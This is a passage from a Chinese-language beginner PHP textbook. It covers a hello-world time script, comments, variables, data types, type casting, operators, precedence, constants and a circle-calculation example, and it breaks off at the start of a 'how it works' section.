<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Hello</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>
<?php
$currentTime = date( "g:i:s a" );
echo "Hello, world! The current time is $currentTime";
?>
</h1>
</body>
</html>
```

将脚本保存为 hello_with_time.php，并在浏览器中打开其 URL 以运行它。你会看到类似图 2-14 的内容。



图 2-14

如果运行此脚本时看到一条冗长的警告消息，告知你不应依赖系统的时区设置，则需要配置 PHP 的时区。请参阅本章前面的“设置你的时区”部分以获取说明。

大部分代码与之前完全相同。唯一的区别是 PHP 代码本身：

```
<?php
$currentTime = date( "g:i:s a" );
echo "Hello, world! The current time is $currentTime";
?>
```

PHP 代码的第一行获取当前时间并将其格式化为可读的文本字符串，然后将此字符串存储在名为 $currentTime 的变量中。（变量是存储数据的容器。你将在下一章了解有关它们的所有内容。）要格式化时间，脚本使用内置的 date() 函数。引号之间的字符串告诉 PHP 如何格式化时间，如下所示：

- g、i 和 s 告诉 PHP 分别输出当前小时、分钟和秒
- a 告诉 PHP 根据需要显示“am”或“pm”
- 冒号（:）和空格字符不会被 date() 函数处理，因此会原样显示

你将在第 16 章了解 PHP date() 函数的方方面面。

然后第二行代码显示“Hello, world！”消息，其中包含当前时间。在浏览器中重新加载页面，你会看到时间发生变化。

注意 PHP 允许你在文本字符串中包含变量名，就像 $currentTime 变量一样。这使你能够轻松创建包含动态信息的文本消息。

这个简单示例是动态网页的本质——每次查看页面时内容可能都不同的页面。在本书中，你将学习如何使用 PHP 为网站添加各种动态内容。

## 使用注释使代码更易读

为了总结本章，你将了解 PHP 的另一项基本功能：注释。注释只是 PHP 引擎忽略的文本。注释的目的是让你能够为自己（以及其他程序员）添加说明代码功能的消息。即使你是独自工作的程序员，给代码添加注释始终是个好主意。有时，写代码时看得懂的内容，三个月后可能变得一团模糊，因此注释非常有帮助！

PHP 支持单行注释和多行注释。要编写单行注释，请用两个斜杠（//）或井号（#）开头一行。例如：

```
// This code displays the current time
# This code displays the current time
```


要编写多行注释，请用斜杠后跟星号（/*）开始注释，并用星号后跟斜杠（*/）结束注释，如下所示：

```
/*
This code displays the
current time in a nice,
easy-to-read format.
*/
```

因此，你可能会在 hello_with_time.php 脚本中像这样注释 PHP 代码：

```
<?php
// Get the current time in a readable format
$currentTime = date( "g:i:s a" );

// Display greeting and time to the visitor
echo "Hello, world! The current time is $currentTime";
?>
```

## 摘要

阅读本章后，你已从 PHP 理论转入实践。首先，你学习了如何在自己的计算机上（无论是 Linux、Windows 还是 Mac 机器）搭建 PHP Web 服务器，并编写一些简单的 PHP 脚本。在此过程中，你学到了：

- 如何在 Ubuntu Linux 上安装 Apache、PHP 和 MySQL 软件包
- 在 Windows 和 Mac OS X 上安装 Apache、PHP 和 MySQL 的简便方法：使用 WampServer 和 MAMP
- 测试 Web 服务器和 PHP 引擎是否正确安装的技巧
- 运行 PHP 的一些替代方法，包括将 PHP 与 IIS 配合使用、从头开始编译 PHP 以及在 Web 托管帐户上运行 PHP 脚本
- 编写简单的 PHP 脚本，并通过在 HTML 中嵌入 PHP 并添加动态元素来扩展脚本
- 通过向代码添加注释来提高 PHP 脚本的可读性

现在你已准备好进入下一步，从零开始探索 PHP 语言。你将在下一章中这样做。与此同时，尝试下面的简单练习来测试你目前的知识。

本书中所有练习的解答均可在附录 A 中找到。

## 练习

- 增强 hello_with_time.php 脚本，使其同时显示当前日期和时间。
- 为代码添加注释以提高可读性。（提示：使用 date() 函数，可以使用 M 显示月份名称，j 显示当月的一天，Y 显示年份。）

# 第二部分

## 学习语言

- 第 3 章：PHP 语言基础
- 第 4 章：决策与循环
- 第 5 章：字符串
- 第 6 章：数组
- 第 7 章：函数
- 第 8 章：对象

## PHP 语言基础

迄今为止，你已经了解了 PHP 是什么以及可以用来做什么。你还编写并测试了一个简单的 PHP 脚本，以了解该语言的工作原理。现在，在接下来的几章中，你将建立坚实的知识基础，以便使用 PHP 创建更复杂的应用程序和网站。

本章开启序幕。在本章中，你将探索 PHP 的一些基本概念——可以说，是它的构建块。你将了解：

- **变量**，可让你在脚本中存储和操作数据
- **数据类型**，包括 PHP 中可用的类型，以及如何测试和更改类型
- PHP 可用的**运算符**，可用于操作信息
- **常量**，用于存储脚本中不会更改的数据，非常有用

这些都是重要概念，无论是在 PHP 中还是在其他编程语言中。读完并消化本章后，你将准备好继续学习并掌握 PHP 语言的其他特性。

### 在 PHP 中使用变量

变量是任何编程语言的基本组成部分。*变量*只是一个存储特定值的容器。变量之所以得名，是因为该特定值在脚本执行过程中可以改变。正是这种包含可变值的能力，使变量如此有用。

例如，考虑以下简单的 PHP 脚本：

```
echo 2 + 2;
```

如你所料，这段代码在运行时输出数字 4。这固然很好；但是，如果你想改为打印比如 5 + 6 的值，则需要编写另一个 PHP 脚本，如下所示：

```
echo 5 + 6;
```

变量就在此处发挥作用。在脚本中使用变量而非数字，可以使脚本更加实用和灵活：

```
echo $x + $y;
```

现在你有了一个通用脚本。你可以将变量 $x 和 $y 设置为任意两个想要的值，无论是在代码的其他位置，还是作为用户输入的结果。然后，当你运行上述代码行时，脚本将输出这两个值的和。使用不同的 $x 和 $y 值重新运行脚本，将得到不同的结果。

### 命名变量

变量由两部分组成：变量名和变量值。由于你将在代码中频繁使用变量，因此最好为变量命名以便于理解和记住。与其他编程语言一样，PHP 在命名变量时有一定规则需要遵守：

- 变量名以美元符号（$）开头
- 美元符号后的第一个字符必须是字母或下划线
- 名称中的其余字符可以是字母、数字或下划线，且无长度限制

变量名区分大小写（$Variable 和 $variable 是两个不同的变量），因此坚持使用一种变量命名方法（例如，始终使用小写）可以避免错误。还值得指出的是，超过 30 个字符的变量名不太实用。

以下是一些 PHP 变量名示例：

```
$my_first_variable
$anotherVariable
$x
$_123
```

### 创建变量

在 PHP 中创建变量称为*声明*它。声明变量就像在脚本中使用其名称一样简单：

```
$my_first_variable;
```

当 PHP 首次在脚本中看到变量名时，会自动在该处创建变量。许多编程语言禁止在未先显式声明（创建）变量的情况下使用它。但 PHP 允许你通过命名在任何点使用变量。这并不总是你想象中的恩赐；如果你不小心使用了一个不存在的变量名，则不会生成错误消息，你最终可能会得到一个难以查找的 bug。不过，在大多数情况下，它工作良好，是一个有用的功能。

在 PHP 中声明变量时，最好同时为其赋值。这称为初始化变量。这样做，任何读取你代码的人都知道变量在创建时持有的值。（如果在 PHP 中未初始化变量，则将其赋予默认值 null。）

以下是声明并初始化变量的示例：

```
$my_first_variable = 3;
```

这将创建名为 $my_first_variable 的变量，并使用 = 运算符为其赋值 3。（本章稍后将介绍 = 和其他运算符。）

回顾前面的加法示例，以下脚本创建两个变量，用值 5 和 6 初始化它们，然后输出它们的和 (11)：

```
$x = 5;
$y = 6;
echo $x + $y;
```

### 了解数据类型

存储在 PHP 变量中的所有数据都属于八个基本类别之一，称为数据类型。变量的数据类型决定了可以对变量数据执行哪些操作，以及存储数据所需的内存大小。

PHP 支持四种标量数据类型。标量数据是指仅包含单个值的数据。以下是它们的列表，并附有示例：

| 标量数据类型 | 描述 | 示例 |
|---|---|---|
| Integer | 整数 | 15 |
| Float | 浮点数 | 8.23 |
| String | 字符序列 | "Hello, world!" |
| Boolean | 表示 true 或 false | true |

除了四种标量类型外，PHP 还支持两种复合类型。复合数据是指可以包含多个值的数据。下表描述了 PHP 的复合类型：

| 复合数据类型 | 描述 |
|---|---|
| Array | 有序映射（包含映射到值的名称或数字） |
| Object | 可能包含属性和方法的类型 |

你将在第 6 章中学习数组，在第 8 章中学习对象。

最后，PHP 支持两种特殊数据类型，之所以这样称呼，是因为它们本身不包含标量或复合数据，但具有特定含义：

| 特殊数据类型 | 描述 |
|---|---|
| Resource | 包含对外部资源（例如文件或数据库）的引用 |
| Null | 值只能为 null，表示变量明确不包含任何值 |

### 关于弱类型

PHP 被称为弱类型语言。这意味着它对变量中存储的数据类型并不特别在意。它会根据变量使用的上下文自动转换变量的数据类型。例如，你可以用整数值初始化变量；向其中添加一个浮点数值，从而将其转换为浮点数；然后将其连接到字符串值以生成更长的字符串。相比之下，许多其他语言（如 Java）是强类型语言；一旦在 Java 中设置了变量的类型，它就必须始终包含该类型的数据。

PHP 的弱类型既有好处也有坏处。从优点来看，它使变量非常灵活；同一个变量可以轻松用于不同场景。这也意味着你在声明变量时无需担心指定类型。但是，如果你不小心传递了错误类型的数据，PHP 不会提示你。例如，PHP 会很乐意让你将浮点数值传递给期望处理整数值的代码。你可能看不到错误消息，但可能会发现脚本的输出并不完全如你所期望！这类错误可能难以追查。（幸运的是，有一种方法可以测试变量的类型，你稍后就会看到。）

### 测试变量的类型

你可以随时使用 PHP 的 gettype() 函数来确定变量的类型。要使用 gettype()，请传入要测试其类型的变量。然后该函数将变量的类型作为字符串返回。


要将变量传递给函数，请在函数名后的圆括号中放置变量 — 例如，gettype( $x )。如果需要传递多个变量，请用逗号分隔。（您将在第 7 章了解更多有关函数的工作原理以及如何使用它们的内容。）

以下示例展示了 gettype() 的用法。先声明一个变量，并使用 gettype() 测试其类型。然后，将四种不同类型的数据赋值给该变量，每次赋值后都用 gettype() 重新测试变量的类型：

```
$test_var; // Declares the $test_var variable without initializing it
echo gettype( $test_var ) . "<br />"; // Displays "NULL"
$test_var = 15;
echo gettype( $test_var ) . "<br />"; // Displays "integer"
$test_var = 8.23;
echo gettype( $test_var ) . "<br />"; // Displays "double"
$test_var = "Hello, world!";
echo gettype( $test_var ) . "<br />"; // Displays "string"
```

$test_var 变量最初的类型为 null，因为它已被创建但未初始化（未赋值）。在将 $test_var 的值设置为 15 后，其类型更改为 integer。将 $test_var 设置为 8.23 会更改其类型为 double（在 PHP 中，这与 float 含义相同，因为所有 PHP 浮点数都是双精度）。最后，将 $test_var 设置为 "Hello, world!" 会将其类型更改为 string。

在 PHP 中，浮点值只是带有小数点的值。因此，如果在前面的示例中使用 15.0 而不是 15，$test_var 将变为 double，而不是 integer。

您也可以使用 PHP 的类型测试函数来测试变量是否为特定数据类型：

| 函数 | 描述 |
|---|---|
| is_int( value ) | 如果 value 为 integer，则返回 true |
| is_float( value ) | 如果 value 为 float，则返回 true |
| is_string( value ) | 如果 value 为 string，则返回 true |
| is_bool( value ) | 如果 value 为 Boolean，则返回 true |
| is_array( value ) | 如果 value 为 array，则返回 true |
| is_object( value ) | 如果 value 为 object，则返回 true |
| is_resource( value ) | 如果 value 为 resource，则返回 true |
| is_null( value ) | 如果 value 为 null，则返回 true |

（您将在第 4 章了解如何测试事物以及如何更改脚本的流程。）

最好仅在要调试脚本以定位可能与数据类型相关的 bug 时才使用 `gettype()`。如果您只是想确保变量为正确类型，请使用特定的类型测试函数；例如，在函数内部使用之前，最好先测试传递给函数的参数是否为预期类型。这有助于使您的代码更加健壮和安全。（您将在第 7 章了解有关函数和参数的全部内容。）

## 更改变量的数据类型

之前，您学习了如何通过向变量赋予不同值来更改变量的类型。然而，您可以使用 PHP 的 `settype()` 函数来更改变量的类型，同时尽可能保留变量的值。要使用 `settype()`，请传入要更改的变量名，后跟要更改为的类型（用引号括起来）。

以下是使用 `settype()` 将变量转换为多种不同类型的示例代码：

```php
$test_var = 8.23;
echo $test_var . "<br />";     // Displays "8.23"
settype( $test_var, "string" );
echo $test_var . "<br />";     // Displays "8.23"
settype( $test_var, "integer" );
echo $test_var . "<br />";     // Displays "8"
settype( $test_var, "float" );
echo $test_var . "<br />";     // Displays "8"
settype( $test_var, "boolean" );
echo $test_var . "<br />";     // Displays "1"
```

最初，`$test_var` 变量包含 8.23（一个浮点值）。接下来，`$test_var` 被转换为字符串，这意味着数字 8.23 现在使用字符 8、.（句点）、2 和 3 来存储。将 `$test_var` 转换为整数类型后，它包含值 8；换句话说，数字的小数部分已永久丢失。您可以在接下来的两行中看到这一点，这两行将 `$test_var` 转换回浮点数并显示其内容。尽管 `$test_var` 又是一个浮点变量，但它现在包含整数 8。最后，将 `$test_var` 转换为 Boolean 后，它包含值 `true`（PHP 将其显示为 1）。这是因为 PHP 将非零数字转换为 Boolean 值 `true`。

有关 PHP 视为 `true` 和 `false` 的内容，请参阅本章后面的“逻辑运算符”部分。

## 通过强制类型转换更改类型

您也可以使用一种称为 _类型转换_ 的技术，使变量的值被视为特定类型。这涉及在变量名之前将所需数据类型的名称放在圆括号中。请注意，变量本身不受影响；这与 `settype()` 不同，后者会更改变量的类型。

在以下示例中，变量的值在显示时会被强制转换为各种不同的类型：

```php
$test_var = 8.23;
echo $test_var . "<br />"; // Displays "8.23"
echo (string) $test_var . "<br />"; // Displays "8.23"
echo (int) $test_var . "<br />"; // Displays "8"
echo (float) $test_var . "<br />"; // Displays "8.23"
echo (boolean) $test_var . "<br />"; // Displays "1"
```

请注意，$test_var 的类型在任何时候都不会更改；它始终是一个浮点变量，包含值 8.23。唯一改变的是传递给 echo 语句的数据的类型。

以下是 PHP 中可使用的完整强制转换列表：

| 强制转换 | 描述 |
|---|---|
| `(int) value or (integer) value` | 将 `value` 强制转换为 integer |
| `(float) value` | 将 `value` 强制转换为 float |
| `(string) value` | 将 `value` 强制转换为 string |
| `(bool) value or (boolean) value` | 将 `value` 强制转换为 Boolean |
| `(array) value` | 将 `value` 强制转换为 array |
| `(object) value` | 将 `value` 强制转换为 object |

您还可以使用三个 PHP 函数将值强制转换为整数、浮点数或字符串：

| 函数 | 描述 |
|---|---|
| `intval( value )` | 将 `value` 强制转换为 integer |
| `floatval( value )` | 将 `value` 强制转换为 float |
| `strval( value )` | 将 `value` 强制转换为 string |

顺便说一句，intval() 还有另一个用途：将非十进制整数转换为十进制整数。要使用此功能，请向 intval() 传递非十进制整数的字符串表示，后跟该整数的进制。例如，intval( "11", 5 ) 返回值 6（将基数为 5 的数字 11 转换为十进制数字）。

您为何要使用 `settype()` 更改变量的类型，或使用强制转换更改值的类型？大多数情况下，PHP 的弱类型会根据您使用变量和值的上下文自动为您处理类型转换。但是，强制变量为特定类型出于安全考虑很有用；如果您预期要将用户输入的整数值传递给数据库，最好将值强制转换为整数，以确保用户确实输入了整数。同样，如果您正在将数据传递给另一个程序，而该程序期望数据为字符串格式，则可以在传递前将值强制转换为字符串。

基本上，每当您要绝对确定变量包含某种类型的数据时，请使用显式强制转换或 `settype()`。

## 运算符和表达式

到目前为止，您已经了解了变量是什么，如何将变量设置为特定值，以及如何检索变量的值和类型。但是，如果只能对变量做这些，生活就会相当乏味。运算符派上用场了。使用运算符，您可以操作一个或多个变量的内容以产生新值。例如，此代码使用加法运算符 (+) 将 $x 和 $y 的值相加以产生新值：

```
echo $x + $y;
```

因此，_运算符_ 是一个操作一个或多个值的符号，通常在此过程中产生新值。同时，PHP 中的 _表达式_ 是任何求值结果为值的内容；这可以是值、变量、运算符和函数的任何组合。在前面的示例中，$x + $y 是一个表达式。以下是更多表达式示例：

```
$x + $y + $z
$x - $y
$x
5
true
gettype( $test_var )
```

与运算符一起使用的值和变量称为 _操作数_。

## 运算符类型

PHP 中的运算符可分为十种类型，如下所示：

| 类型 | 描述 |
|---|---|
| 算术 | 执行常见的算术运算，例如加法和减法 |
| 赋值 | 将值赋给变量 |
| 位运算 | 对整数的各个位执行操作 |


| 类型 | 描述 |
| :--- | :--- |
| 比较 | 以布尔方式比较值（返回 true 或 false） |
| 错误控制 | 影响错误处理 |
| 执行 | 导致命令执行，仿佛它们是 shell 命令 |
| 递增/递减 | 增加或减少变量的值 |
| 逻辑 | 布尔运算符，如 and、or 和 not，可用于包含或排除 |
| 字符串 | 连接（拼接）字符串（只有一个字符串运算符） |
| 数组 | 对数组执行操作（在第 6 章中介绍） |

在本节的其余部分，你将探讨最常用的 PHP 运算符。

### 算术运算符

在 PHP 中，算术运算符（加、减等）的工作方式与你预期的大致相同，使你能够编写仿佛是简单方程式的表达式。例如，$c = $a + $b 将 $a 和 $b 相加并将结果赋值给 $c。以下是 PHP 算术运算符的完整列表：

| 运算符 | 示例方程 |
| :--- | :--- |
| +（加法） | 6 + 3 = 9 |
| -（减法） | 6 - 3 = 3 |
| *（乘法） | 6 * 3 = 18 |
| /（除法） | 6 / 3 = 2 |
| %（取模） | 6 % 3 = 0（6/3 的余数） |

### 赋值运算符

你已经看到，基本赋值运算符（=）可用于将值赋给变量：

```
$test_var = 8.23;
```

还值得注意的一点是，前面的表达式的求值结果是赋值本身的值：8.23。这是因为赋值运算符（像 PHP 中的大多数运算符一样）既会产生一个值，又会执行赋值操作。这意味着你可以编写如下代码：

```
$another_var = $test_var = 8.23;
```

# 第二部分：学习语言

这意味着：“将值 8.23 赋给 $test_var，然后将该表达式的结果（8.23）赋给 $another_var。”因此，$test_var 和 $another_var 现在都包含值 8.23。

等号（=）可以与其他运算符组合，为你提供一个*复合赋值运算符*，从而更轻松地编写某些表达式。复合赋值运算符（如 +=、-= 等）只是为执行典型的算术运算提供了一种简写方法，因此你不必多次写出变量名。例如，你可以写：

```
$first_number += $second_number;
```

而不必写：

```
$first_number = $first_number + $second_number;
```

这也适用于其他类型的运算符。例如，连接运算符（本章后面将介绍）可以与等号组合（如 .=），使右侧的值附加到左侧现有的值上，如下所示：

```
$a = "Start a sentence ";
$b = "and finish it.";
$a .= $b;    // $a now contains "Start a sentence and finish it."
```

主要的算术运算符、字符串运算符和按位运算符都支持以这种方式进行组合；欲了解更多信息，请访问 http://www.php.net/manual/en/language.operators.assignment.php。

### 按位运算符

PHP 的按位运算符允许你操作整型变量中的各个位。考虑整数值 1234。对于 16 位整数，该值存储为两个字节：4（最高有效字节）和 210（最低有效字节）。4 * 256 + 210 = 1234。

这两个字节作为比特字符串的形式如下：

```
00000100 11010010
```

值为 1 的位据说是*已设置*的，而值为 0 的位是*未设置*的（或未设置）。

PHP 的按位运算符允许你直接操作这些位，如下表所示。每个示例都包含十进制值及其对应的二进制值，以便你查看位是如何改变的：

| 运算符 | 描述 | 示例 |
| :--- | :--- | :--- |
| &（与） | 只有在两个值中都已设置的位在结果中才会被设置 | 14 & 3 = 2<br>00001110 & 00000011 = 00000010 |
| \|（或） | 在任一值中已设置的位在结果中都会被设置 | 14 \| 3 = 15<br>00001110 \| 00000011 = 00001111 |
| ^（异或） | 在任一值中已设置（但不是两个值都已设置）的位在结果中都会被设置 | 14 ^ 3 = 13<br>00001110 ^ 00000011 = 00001101 |
| ~（非） | 值中已设置的位在结果中不会被设置，反之亦然 | ~-14 = -15<br>~00000000000000000000000000001110 =<br>11111111111111111111111111110001 |
| <<（左移） | 将第一个值中的所有位向左移动指定的位数（由第二个值指定） | 3 << 2 = 12<br>00000011 << 2 = 00001100 |
| >>（右移） | 将第一个值中的所有位向右移动指定的位数（由第二个值指定） | 8 >> 2 = 2<br>00001000 >> 2 = 00000010 |

你可以看到，~(非) 会反转数字中所有的位。请注意，每个值都有 32 位，因为 PHP 使用 32 位整数。（为简洁起见，其他示例只显示每个值的最后 8 位。）生成的位值（11111111111111111111111111110001）表示 -15，因为 PHP 使用二进制补码系统来表示负数（有关二进制补码的说明，请参见 http://en.wikipedia.org/wiki/Two%27s_complement）。

按位运算符的常见用法是将值组合在一起以创建位掩码。例如，考虑表示 PHP 错误级别的常量（在第 20 章中详细介绍）。E_NOTICE 常量的整数值为 8（二进制为 00001000），E_PARSE 常量的整数值为 4（二进制为 00000100）。要组合这两个常量以便同时报告 E_NOTICE 和 E_PARSE 级别，你将使用 |（按位或）运算符：

```
E_NOTICE | E_PARSE
```

这将两个整数常量的位组合在一起，创建一个新整数（12），其位值同时表示 E_NOTICE（8）和 E_PARSE（4）：

```
00001000 (8) | 00000100 (4) = 00001100 (12)
```

### 比较运算符

顾名思义，比较运算符允许你以各种方式比较一个操作数与另一个操作数。如果比较测试成功，表达式的求值结果为 true；否则，求值结果为 false。你经常将比较运算符与 if 和 while 等决策及循环语句一起使用（这些将在第 4 章中介绍）。

以下是 PHP 中的比较运算符列表：

| 运算符 | 示例 | 结果 |
| :--- | :--- | :--- |
| ==（等于） | $x == $y | 如果 $x 等于 $y，则为 true；否则为 false |
| != 或 <>（不等于） | $x != $y | 如果 $x 不等于 $y，则为 true；否则为 false |
| ===（完全等于） | $x === $y | 如果 $x 等于 $y 且类型相同，则为 true；否则为 false |
| !==（不完全等于） | $x !== $y | 如果 $x 不等于 $y 或类型不同，则为 true；否则为 false |
| <（小于） | $x < $y | 如果 $x 小于 $y，则为 true；否则为 false |
| >（大于） | $x > $y | 如果 $x 大于 $y，则为 true；否则为 false |
| <=（小于或等于） | $x <= $y | 如果 $x 小于或等于 $y，则为 true；否则为 false |
| >=（大于或等于） | $x >= $y | 如果 $x 大于或等于 $y，则为 true；否则为 false |

以下示例展示了比较运算符的实际应用：

```
$x = 23;
echo ( $x < 24 ) . "<br />"; // Displays 1 (true)
echo ( $x < "24" ) . "<br />"; // Displays 1 (true) because
// PHP converts the string to an integer
echo ( $x == 23 ) . "<br />"; // Displays 1 (true)
echo ( $x === 23 ) . "<br />"; // Displays 1 (true)
echo ( $x === "23" ) . "<br />"; // Displays "" (false) because
// $x and "23" are not the same data type
echo ( $x >= 23 ) . "<br />"; // Displays 1 (true)
echo ( $x >= 24 ) . "<br />"; // Displays "" (false)
```

如你所见，比较运算符通常用于比较两个数字（或转换为数字的字符串）。== 运算符也常用于检查两个字符串是否相同。

### 递增/递减运算符

反复添加或减去值 1（一）通常很有用。这种情况发生得非常频繁——例如，在创建循环时——因此会使用特殊运算符来执行此任务：递增运算符和递减运算符。它们分别写为两个加号或两个减号，位于变量名前或变量名后，如下所示：

```
++$x; // Adds one to $x and then returns the result
$x++; // Returns $x and then adds one to it
--$x; // Subtracts one from $x and then returns the result
$x--; // Returns $x and then subtracts one from it


运算符的位置至关重要。将运算符置于变量名之前，会导致变量的值在返回前先递增或递减；将运算符置于变量名之后，则先返回变量的当前值，再对变量加 1 或减 1。例如：

```
$x = 5;
echo ++$x; // Displays "6" (and $x now contains 6)
$x = 5;
echo $x++; // Displays "5" (and $x now contains 6)
```

有趣的是，你还可以对字符使用递增运算符。例如，你可以对字符 B“加”上 1，返回的值是 C。但是，不能对字符值执行减法（递减）操作。

## 逻辑运算符

PHP 的逻辑运算符作用于布尔值。在了解逻辑运算符的工作原理之前，值得花些时间更深入地探索布尔值。

如你所见，布尔值要么是 true，要么是 false。PHP 在需要时会自动将表达式求值为 true 或 false，不过如你所见，如果有必要，你可以使用 settype() 或强制转换将值显式转换为布尔值。

例如，下列表达式都求值为 true：

```
1
1 == 1
3 > 2
"hello" != "goodbye"
```

下列表达式都求值为 false：

```
3 < 2
gettype(3) == "array"
"hello" == "goodbye"
```

此外，PHP 认为下列值为 false：

- 布尔字面量 false
- 整数零 (0)
- 浮点零 (0.0)
- 空字符串 ("")
- 字符串零 ("0")
- 元素个数为零的数组
- 特殊类型 null（包括任何未设置的变量）
- 由空 XML 标签创建的 SimpleXML 对象（SimpleXML 将在第 19 章详述）

在布尔上下文中，所有其他值都被视为 true。

既然你已经了解布尔值的工作原理，就可以开始将布尔值与逻辑运算符组合使用了。PHP 提供了六个逻辑运算符，它们都与 `true` 或 `false` 布尔值结合使用，以产生 `true` 或 `false` 结果：

| 运算符 | 示例 | 结果 |
| :--- | :--- | :--- |
| && (and) | $x && $y | 当 $x 和 $y 均求值为 true 时为 true；否则为 false |
| and | $x and $y | 当 $x 和 $y 均求值为 true 时为 true；否则为 false |
| || (or) | $x || $y | 当 $x 或 $y 其中任一求值为 true 时为 true；否则为 false |
| or | $x or $y | 当 $x 或 $y 其中任一求值为 true 时为 true；否则为 false |
| xor | $x xor $y | 当 $x 或 $y（但不同时）求值为 true 时为 true；否则为 false |
| ! (not) | !$x | 当 $x 为 false 时为 true；当 $x 为 true 时为 false |

以下是逻辑运算符的几个简单示例：

```
$x = 2;
$y = 3;
echo ( ($x > 1) && ($x < 5) ) . "<br />";   // Displays 1 (true)
echo ( ($x == 2) or ($y == 0) ) . "<br />";   // Displays 1 (true)
echo ( ($x == 2) xor ($y == 3) ) . "<br />";   // Displays "" (false) because both
                                                  // expressions are true
echo ( !($x == 5) ) . "<br />";   // Displays 1 (true) because
// $x does not equal 5
```

逻辑运算符和布尔逻辑的主要用途是在进行决策和创建循环时，这将在第 4 章中探讨。

你可能在想，为什么 `and` 和 `or` 运算符也可以写成 `&&` 和 `||`。原因是 `and` 和 `or` 的优先级与 `&&` 和 `||` 不同。运算符优先级将稍后解释。

## 字符串运算符

实际上只有一个字符串运算符，即连接运算符 .（点号）。该运算符只是获取两个字符串值，并将右侧字符串连接到左侧字符串上，形成一个更长的字符串。

例如：

```
echo "Shaken, " . "not stirred";   // Displays "Shaken, not stirred"
```

你也可以一次连接多个超过两个字符串。而且，你连接的值不一定非得是字符串；归功于 PHP 的自动类型转换，非字符串值（如整数和浮点数）在连接时会被转换为字符串：

```
$tempF = 451;

// Displays "Books catch fire at 232.777777778 degrees C."
echo "Books catch fire at " . ( (5/9) * ($tempF-32) ) . " degrees C.";
```

事实上，还有一个字符串运算符——复合赋值运算符 .=，本章前面提到过。当你想要将新字符串连接到现有字符串变量末尾时，它非常有用。例如，下面两行代码的作用相同——它们通过将字符串变量 $y 添加到 $x 末尾来修改字符串变量 $x：

```
$x = $x . $y;
$x .= $y;
```

## 理解运算符优先级

对于简单表达式（例如 3 + 4），需要做什么显而易见（在这里，是“将 3 和 4 相加得到 7”）。然而，一旦在表达式中开始使用多个运算符，情况就不那么明确了。请看以下示例：

```
3 + 4 * 5
```

PHP 是否应该先将 3 加到 4 上得到 7，然后再将结果乘以 5 得出最终数字 35？还是应该先将 4 乘以 5 得到 20，然后加上 3 得到 23？

这就是运算符优先级发挥作用的地方。所有 PHP 运算符均按优先级排序。优先级较高的运算符会在优先级较低的运算符之前执行。在示例中，* 的优先级高于 +，因此 PHP 先将 4 乘以 5，然后再将 3 加到结果上得到 23。

下面是你迄今所遇到的所有运算符，按优先级排序（从高到低）：

| 一些 PHP 运算符的优先级（从高到低） |
| :--- |
| ++ --（递增/递减） |
| (int) (float) (string) (array) (object) (bool)（强制转换） |
| !（非） |
| * / %（算术） |
| + - .（算术） |
| < <= > >= <>（比较） |
| == != === !==（比较） |
| &&（与） |
| ||（或） |
| = += -= *= /= .= %=（赋值） |
| and |
| xor |
| or |

PHP 提供的运算符远不止此处列出的这些。有关完整列表，请参阅 http://www.php.net/operators。

你可以通过使用括号来影响表达式中运算符的执行顺序。将运算符及其操作数括在括号中，会强制该运算符具有最高优先级。例如，下列表达式求值为 35：

```
( 3 + 4 ) * 5
```

如前所述，PHP 有两个逻辑“与”运算符（&&、and）和两个逻辑“或”运算符（||、or）。如上表所示，&& 和 || 的优先级高于 and 和 or。实际上，and 和 or 的优先级甚至低于赋值运算符。这意味着使用 and 和 or 时需要小心。例如：

```
$x = false || true; // $x is true
$x = false or true; // $x is false
```

在第一行中，false || true 求值为 true，因此 $x 的最终值为 true，正如你所期望的那样。然而，在第二行中，$x = false 会先被求值，因为 = 的优先级高于 or。在求值 false or true 之前，$x 已经被设置为 false。

由于 and 和 or 运算符的优先级较低，通常最好坚持使用 && 和 ||，除非你特别需要那种较低的优先级。

## 常量

在 PHP 中，你还可以定义称为常量的值容器。顾名思义，常量的值永远不能更改。常量在 PHP 程序中只能定义一次。

常量与变量的区别在于，常量名称不以美元符号开头，除此之外，命名方式与变量相同。不过，为常量使用全大写名称是良好做法。此外，由于常量不以美元符号开头，你应避免使用 PHP 的任何保留字（如语句或函数名）来命名常量。例如，不要创建名为 ECHO 或 SETTYPE 的常量。如果你以这种方式命名任何常量，PHP 会非常困惑！

常量只能包含标量值，如布尔值、整数、浮点数和字符串（不包括数组和对象等值），可以在 PHP 程序中的任何位置使用，而无需考虑变量作用域，并且区分大小写。

变量作用域将在第 7 章中解释。

要定义常量，请使用 define() 函数，并在括号内包括你为常量选择的名称，后跟常量的值，如下所示：

```
define("MY_CONSTANT", "19"); // MY_CONSTANT always has the string value "19"
echo MY_CONSTANT; // Displays "19" (note this is a string, not an integer)
```


常量在您希望确保脚本运行期间值保持不变的任何情况下都非常有用。常量的常见用途包括配置文件以及存储要显示给用户的文本。

## 尝试一下 计算圆的属性

将此简单脚本另存为 Web 服务器文档根目录下的 circle_properties.php，然后在 Web 浏览器中打开其 URL（例如，http://localhost/circle_properties.php）以运行它：

```php
<?php
$radius = 4;

$diameter = $radius * 2;
$circumference = M_PI * $diameter;
$area = M_PI * pow( $radius, 2 );

echo "This circle has...<br />";
echo "A radius of " . $radius . "<br />";
echo "A diameter of " . $diameter . "<br />";
echo "A circumference of " . $circumference . "<br />";
echo "An area of " . $area . "<br />";
?>
```

运行脚本时，您应该会看到类似图 3-1 的内容。



图 3-1

### 工作原理

